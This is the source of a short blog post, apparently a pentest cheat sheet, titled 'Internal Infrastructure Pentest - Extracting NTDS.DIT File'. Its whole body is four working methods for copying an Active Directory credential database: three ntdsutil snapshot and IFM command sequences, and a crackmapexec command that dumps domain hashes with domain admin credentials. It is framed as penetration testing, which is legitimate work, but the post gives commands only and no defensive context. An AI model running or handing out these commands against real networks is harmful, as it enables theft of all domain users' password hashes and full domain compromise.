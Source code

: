 ```yaml
---
layout: single
classes: wide
author_profile: true
read_time: true
share: true
related: true
title:  "Internal Infrastructure Pentest - Extracting NTDS.DIT File"
date:   2019-06-22 15:29:10 +1000
categories:
  - Internal Pentest
  - Internal Infrastructure Pentest
  - Network Pentest
tags:
  - NTDS
  - DIT file extraction
  - Windows Security
  - Active Directory Hacking
---
```

<b>Method1:</b>
<pre>
ntdsutil snapshot "activate instance ntds" create quit quit
ntdsutil snapshot "mount {GUID}" quit quit
copy "MOUNT_POINT\windows\ntds\ntds.dit" "c:\temp\ntds.dit"
ntdsutil snapshot "unmount {GUID}" "delete {GUID}" quit quit
</pre>

<b>Method2:</b>
<pre>
C:\>ntdsutil
ntdsutil: activate instance ntds
ntdsutil: ifm
ifm: create full c:\pentest
ifm: quit
ntdsutil: quit
</pre>

<b>Method3:</b>
<pre>
ntdsutil "ac in ntds" "ifm" "cr fu c:\temp" q q
</pre>

<b>Method4:</b>
```
crackmapexec.py -u DA_USERNAME -p DA_PASSWORD -d FQDN_DOMAIN DOMAIN_IP --ntds drsuapi
```
